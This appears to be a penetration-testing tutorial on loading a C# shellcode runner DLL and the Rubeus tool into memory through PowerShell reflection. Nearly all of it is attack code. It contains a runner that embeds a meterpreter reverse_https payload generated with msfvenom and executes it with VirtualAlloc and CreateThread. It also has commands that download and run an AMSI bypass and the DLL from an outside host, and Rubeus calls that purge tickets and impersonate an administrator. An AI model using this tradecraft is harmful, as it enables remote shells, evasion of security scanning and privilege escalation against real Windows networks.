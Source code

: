 First, we must create a malicious DLL from VisualStudio. To do so, we will create select the project type as "Class Library(.NET Framework)" obiously in C#. Here are the contents of the DLL:

```
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using Syste.Runtime.InteropServices;

namespace ClassLibrary1
{

  public class Class1
  {
      [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
      static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

      [DllImport("kernel32.dll")]
      static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

      [DllImport("kernel32.dll")]
      static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

      public static void Runner()
      {
        //msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.1 LPORT=443 enablestageencoding=true handlersslcert=justice.pem prependmigrate=true -f csharp
        byte[] buf = new byte[626] { 0xfc,0x48,0x83,0xe4,0xf0,0xe8...

        int size = buf.Length;

        IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);

        Marshal.Copy(buf, 0, addr, size);

        IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);

        WaitForSingleObject(hThread, 0xFFFFFFFF);
      }

  }

}
```
(note that we create the runner method with the prefixes public, static and void. Since the runner method must be available through reflection)

Then to invoke it through reflection with Powershell use the following commands:

```
PS C:\> $data = (New-Object System.Net.WebClient).DownloadData('http://192.168.1.1/ClassLibrary1.dll')

PS C:\> $assem = [System.Reflection.Assembly]::Load($data)

PS C:\> $class = $assem.GetType("ClassLibrary1.Class1")

PS C:\> $method = $class.GetMethod("runner")

PS C:\> $method.Invoke(0, $null)
```

**EXAMPLE: Invoke Rubeus through refleciton:**

(We can do it because the Main method is public and we can call all the functions by specifying their names):

PowerShell commands:

```
PS C:\> (New-Object System.Net.WebClient).DownloadString('http://192.168.1.1/amsi.txt') | IEX  -> first bypass AMSI, amsi bypass used [here](https://github.com/trike33/PEN-300-Code-Snippets/blob/main/AMSI%20Bypasses/PowerShell/AmsiContext.ps1)

PS C:\> $data = (New-Object System.Net.WebClient).DownloadData('http://192.168.1.1/Rubeus.exe')

PS C:\> $assem = [System.Reflection.Assembly]::Load($data)

PS C:\> [Rubeus.Program]::Main("purge".Split())
[Rubeus.Program]::Main("purge".Split())
______ _
(_____ \ | |
_____) )_ _| |__ _____ _ _ ___
| __ /| | | | _ \| ___ | | | |/___)
| | \ \| |_| | |_) ) ____| |_| |___ |
|_| |_|____/|____/|_____)____/(___/
v1.5.0
[*] Action: Purge Tickets
Luid: 0x0
[+] Tickets successfully purged!

PS C:\> [Rubeus.Program]::Main("s4u /user:web01$ /rc4:<ntlm_hash> /impersonateuser:administrator /msdsspn:<spn> /ptt".Split())  -> Example of calling Rubeus with arguments thourgh reflection
